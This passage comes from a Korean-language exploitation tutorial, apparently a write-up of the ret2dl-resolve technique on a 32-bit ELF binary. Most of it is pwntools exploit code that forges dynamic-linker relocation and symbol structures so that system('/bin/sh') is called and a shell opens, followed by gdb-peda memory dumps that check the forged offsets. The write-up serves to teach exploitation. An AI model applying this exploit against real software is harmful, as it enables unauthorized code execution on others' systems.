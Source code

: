 ```python
buf2 += 'BBBB'
# Argument of the function
buf2 += p32(addr_fake_cmd)
#Fake Elf32_Rel
buf2 += p32(addr_got_read)
buf2 += p32(fake_r_info)
#Fake Elf32_Sym
buf2 += p32(fake_st_name)
buf2 += p32(0)
buf2 += p32(0)
buf2 += p32(0x12)
#String "system"
buf2 += "system\x00"
#String "/bin/sh"
buf2 += "/bin/sh\x00"

p = process(elf.path)
#gdb.attach(p)
print(p.recvline())

#raw_input('1')
p.send(buf1)
p.send(buf2)
p.interactive()
```

.bss 영역 base_stage에 저장된 값.

```
db-peda$ x/24wx 0x804a020 + 0x300
0x804a320:	0x0000003b	0xf7f5b918	0x00002084 <- fake_reloc_offset  0x42424242
0x804a330:	0x0804a353	0x0804a00c	0x00021707	0x00002120
0x804a340:	0x00000000	0x00000000	0x00000012	0x74737973
```

fake Elf32_Rel을 가리키도록 fake_reloc_offset을 맞춰준다.

```
gdb-peda$ elfheader .rel.plt
.rel.plt: 0x80482b0 - 0x80482c8 (rodata)
gdb-peda$ x/24wx 0x80482b0 + 0x00002084
0x804a334:	0x0804a00c	0x00021707 <- fake Elf32_Rel  0x00002120	0x00000000
0x804a344:	0x00000000	0x00000012	0x74737973	0x2f006d65
```

fake_r_info의 r_offset을 더해주면 Elf32_Sym을 가리키도록 해준다.

```
gdb-peda$ elfheader .dynsym
.dynsym: 0x80481cc - 0x804822c (rodata)
gdb-peda$ x/24wx 0x80481cc + 0x2170
0x804a33c:	0x00002120	0x00000000	0x00000000	0x00000012
0x804a34c:	0x74737973	0x2f006d65	0x2f6e6962	0x00006873
```
